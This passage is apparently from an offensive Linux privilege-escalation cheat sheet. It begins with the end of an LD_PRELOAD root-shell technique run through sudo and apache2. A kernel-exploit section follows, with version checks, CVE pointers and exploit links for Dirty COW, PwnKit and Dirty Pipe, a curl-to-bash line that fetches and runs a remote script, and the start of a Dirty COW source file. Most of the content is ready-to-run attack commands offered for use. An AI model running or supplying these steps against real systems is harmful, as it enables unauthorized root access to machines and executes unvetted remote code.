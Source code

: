 ```bash
    system("/bin/bash");
}
EOF
gcc -fPIC -shared -o /tmp/privesc.so /tmp/privesc.c -nostartfiles
sudo LD_PRELOAD=/tmp/privesc.so apache2
```

#### **Kernel Exploitation**

**What kernel exploits are:** Exploits that target vulnerabilities in the Linux kernel to gain root privileges. Often reliable but may crash the system.

**Why kernel exploits are important:** When other methods fail, kernel exploits may be the only path to root. Common in older systems.

**When to use kernel exploits:** Last resort due to crash risk. Check kernel version against known exploits.

```bash
# Kernel version enumeration
uname -r                                     # Kernel release version
uname -a                                     # All kernel information
cat /proc/version                            # Detailed version information
cat /etc/issue                               # Distribution information
lsb_release -a                               # Distribution release information

# Check for kernel exploit suggestions
# LinPEAS automatically suggests kernel exploits
# Manual checking against known exploits:

# Common kernel exploits by version:

# CVE-2016-5195 (Dirty COW) - Linux 2.6.22 to 4.8.3
# Affects: Most distributions 2007-2016
uname -r | grep -E "^[2-4]\.[0-8]"          # Check if potentially vulnerable
# Exploit: https://github.com/dirtycow/dirtycow.github.io

# CVE-2017-16995 (Ubuntu 16.04) - Linux 4.4.0 to 4.13.x
# Exploit: https://github.com/Spacial/csirt/tree/master/PoCs

# CVE-2021-4034 (PwnKit) - pkexec vulnerability
# Affects: Most modern Linux distributions
# Check if pkexec exists:
which pkexec
# Exploit: https://github.com/arthepsy/CVE-2021-4034

# CVE-2022-0847 (Dirty Pipe) - Linux 5.8+
# Check kernel version:
uname -r | grep -E "^5\.(8|9|10|11|12|13|14|15|16)"
# Exploit: https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits

# Automated kernel exploit suggestion
curl -s https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | bash
# Comprehensive kernel exploit suggester

# Manual kernel exploit compilation and execution
# Example: Dirty COW compilation
cat > dirty_cow.c << 'EOF'
// Dirty COW exploit code (simplified for space)
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
```